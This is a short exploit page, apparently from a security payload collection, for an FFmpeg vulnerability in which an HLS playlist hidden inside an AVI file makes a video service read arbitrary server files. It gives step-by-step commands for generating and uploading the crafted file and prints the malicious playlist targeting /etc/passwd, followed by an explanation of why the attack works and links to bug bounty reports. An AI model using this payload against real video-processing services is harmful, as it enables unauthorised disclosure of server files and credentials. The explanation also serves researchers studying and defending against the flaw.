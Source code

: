 # FFmpeg HLS vulnerability

FFmpeg is an open source software used for processing audio and video formats. You can use a malicious HLS playlist inside an AVI video to read arbitrary files.

## Exploits

```
1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. Upload `file_read.avi` to some website that processes videofiles
3. (on server side, done by the videoservice) `ffmpeg -i file_read.avi output.mp4`
4. Click "Play" in the videoservice.
5. If you are lucky, you'll the content of `<filename>` from the server.
```

## How it works (Explanations from neex - Hackerone links)

the script creates an AVI that contains an HLS playlist inside GAB2. The playlist generated by this script looks like this:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

To process a playlist ffmpeg concatenates all segments and processes it as single file.
To determine the type of this file FFmpeg uses the first segment of the playlist.
FFmpeg processes .txt files in a special way. It tries to show a screen capture of a tty printing this file.

So, the playlist above will be processed as follows:
FFmpeg sees #EXTM3U signature inside GAB2 chunk and determines file type as HLS playlist.
The file GOD.txt doesn't even exist, but it's name is enough for FFmpeg to detect file type as .txt.
FFmpeg concatenates the contents of all segments of the playlist. As only one of two segments actually exists, the result of concatenation is just the contents of the file we want to retrieve.
Because the type of this concatenation is .txt, FFmpeg draws a tty that prints the file.

## Thanks to

* [Hackerone - Local File Disclosure via ffmpeg @sxcurity](https://hackerone.com/reports/242831)
* [Hackerone - Another local file disclosure via ffmpeg](https://hackerone.com/reports/243470)
* [PHDays - Attacks on video converters:a year later, Emil Lerner, Pavel Cheremushkin](https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.p)
* [Script by @neex](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py)
